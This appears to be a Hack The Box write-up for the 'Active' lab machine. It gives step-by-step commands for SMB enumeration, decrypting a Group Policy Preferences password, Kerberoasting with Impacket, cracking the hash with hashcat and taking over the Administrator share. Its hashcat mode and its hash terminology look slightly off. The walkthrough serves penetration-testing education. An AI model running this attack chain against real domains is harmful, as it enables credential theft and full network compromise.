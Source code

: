 # Active
A really interesting box to learn the basics of AD/Kerberos/Kerbroasting. There are a few different ways/tools to pwn this box, but here's what I believe to be one of the easiest ways.

![Active](../Images/htb_active_0.png)

**Tools: nmap, smbclient, smbmap, gpp-decrypt, ntpdate, hashcat, Impacket (GetADUsers.py and GetUserSPNs.py).**

We begin by running nmap to scan the target:
> nmap -Pn -sC -sV -p- -T4 --min-rate=10000 10.10.10.100

![Active](../Images/htb_active_1.png)

Quite a few open ports, but right away we see that this box runs an AD, has SMB/NetBIOS shares and runs on a Windows Server 2008. Also, the domain name is 'active.htb'.  
Let's enumerate SMB with smbmap:
> smbmap -H 10.10.10.100

![Active](../Images/htb_active_2.png)

So we have read access to 'Replication'. Let's take a look at its files and download them using smbclient:

> smbclient //10.10.10.100/Replication  
> recurse ON  (so we can run the commands to interact with the share)  
> prompt OFF  (so we can download the files without getting prompted to confirm)  

![Active](../Images/htb_active_3.png)

With 'ls' we list the files and with 'mget\*' we download them all.  
In order to locate the downloaded files we can run 'updatedb', then we can locate a file that seems to be important, like 'Groups.xml'. This file has the 'Group Policy Preferences', and can be abused to leak users' passwords, just like below after 'cpassword'. We can also see the username 'svc_tgs'.

![Active](../Images/htb_active_4.png)

We can then decrypt the password using gpp-decrypt:

![Active](../Images/htb_active_5.png)

With all the information gathered, we can now run smbmap again, using the credentials we've just found:
> smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100

![Active](../Images/htb_active_6.png)

Now we can see that we've access to a few more shares. Let's go back to smbclient to test them:
> smbclient //10.10.10.100/Users -U active.htb/svc_tgs

![Active](../Images/htb_active_7.png)

At 'Users' we're able to find the 'user.txt' file containing the user flag.  
Next up, we can use Impacket's GetADUsers to see the users in this box:
> python3 GetADUsers.py active.htb/svc_tgs -dc-ip 10.10.10.100 -all

![Active](../Images/htb_active_8.png)

Now I'd recommend either HTB's Official Walktrough or a good Google research to read and understand about the basics of Kerberos and the Kerbroasting technique.  
We'll use Impacket's GetUserSPNs to find 'Service Principal Names' and try to extract the NTLM hash for the 'Ticket Granting Service' - below is the descryption of the process, as explained inside the tool:  
*"This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs."*
> python3 GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs  
> python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs

![Active](../Images/htb_active_9.png)

If, instead of the NTLM hash, you get an error containing "(Clock skew too great)", it's because the box has a different date/time than your VM, and this process requires a time difference of no more than 5 minutes (in some cases the limit can be of 1 minute). You can try using ntpdate and date to fix this:
> ntpdate 10.10.10.100  (you might need to install this tool with 'apt install' - take a look at the 'time')  
> date  (to see the correct pattern for the date/time)  
> date -s "date and time here"  (to set the date/time)  

![Active](../Images/htb_active_10.png)

And then run the GetUserSPNs again to extract the hash.  
We can crack this hash using hashcat and the wordlist 'rockyou.txt' - first, copy the hash ahd save it to a file called 'hash.txt':
> hashcat -m 1310 hash.txt /usr/share/wordlists/rockyou.txt

![Active](../Images/htb_active_11.png)

![Active](../Images/htb_active_12.png)

There you can see the 'Administrator' password. Now we can simply use smbclient once again to connect to the 'C$' share and grab the root flag from the Administrator's Desktop folder:
> smbclient //10.10.10.100/C$ -U active.htb/Administrator

![Active](../Images/htb_active_13.png)

**That's all for this box folks!**  
Thanks for reading and keep hacking!

